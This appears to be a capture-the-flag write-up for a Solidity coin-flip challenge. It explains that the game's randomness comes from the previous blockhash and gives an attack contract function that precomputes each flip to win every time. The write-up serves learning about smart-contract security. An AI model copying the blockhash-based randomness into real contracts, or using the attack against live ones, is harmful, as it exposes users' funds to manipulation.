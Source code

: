 # Requirements

- Guess the correct outcome of the coin flip 10 times in a row.

# Attack explanation

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. The coin flip seems to be randomly-determined but it's deterministic, as it depends from two values that are publicly available for everyone:

- Factor
- Block values

```
// factor = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

function flip(bool _guess) public returns (bool) {
    // Block values are easily retrieved from another sc. In this way, we can win 100% of times.
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
```

In this way, we will be able to win every flip if we use another smart contract that precalculates block values.

# Attack function

We could solve the challenge by just using the following attack function:

```
function attack() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / factor;
    bool side = coinFlip == 1 ? true : false;

    // 100% chances of guessing flip, as we have precalculated the values.
    vulnerableScAddress.call(abi.encodeWithSignature("flip(bool)", side));
}
```
